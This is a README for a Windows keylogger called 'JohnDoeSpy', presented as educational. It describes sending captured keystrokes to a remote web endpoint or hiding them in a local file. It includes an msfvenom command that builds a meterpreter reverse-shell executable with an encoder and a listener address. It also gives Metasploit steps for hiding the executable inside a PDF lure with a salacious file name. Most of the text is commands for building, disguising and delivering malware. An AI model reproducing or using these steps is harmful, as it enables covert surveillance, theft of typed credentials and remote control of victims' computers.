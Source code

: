 # JohnDoeSpy

# Introduction
<p> This is a simple keylogger for educational purposes. I'm not responsible of your usage. </p>
<p> Keylogger build in C++ for detect keys from keyboards (specific keys only available for french keyboard). You can receive data from url intermediate hosting or by simple text file hidden in your directory. </p>


# HAVE TO KNOW 

<p> This keylogger is build for french keyboard, by the way specific characters will appear with bad matching if you use an other country's keyboard. But any others characters show on <p/>

### WORK ONLY FOR WINDOWS ###


## How to start

* Open terminal from root path project 
* <code> cd build\dllToExe </code>
* <code> pefrmdllembed.exe -impinj KeyloggerV1.exe libcurl-d.dll zlibd1.dll <NameKeylogger.exe> </code>
* Launch <NameKeylogger.exe>
  
  
 ## Payload metasploit
 
 <code> msfvenom -x .\JohnnyLounch.exe -p windows/meterpreter_reverse_tcp -f exe -e x86/shikata_ga_nai lhost=192.168.1.80 lport=4444  -o JohnnyLounchMeterpreter2.exe </code>

### $_POST['text'] matching request curl for receive data on your website.
### You have an example in web directory


## HOW TO CREATE PDF COMPATIBLE FOR EMBED EXE FILE IN

* <code>echo "Hello world!" > femmes_toutes_nues.txt</code>
* <code>groff -Tps femmes_toutes_nues.txt > femmes_toutes_nues.ps </code>
* <code>ps2pdf femmes_toutes_nues.ps </code>

* <code> msfconsole </code>
* <code> use exploit/windows/fileformat/adobe_pdf_embedded_exe </code>

* Now you have to set EXENAME parameter and run 
* <code> set EXENAME myexefile.exe </code>
* <code> set INFILENALE mypdffile.pdf </code>
* <code> run </code>
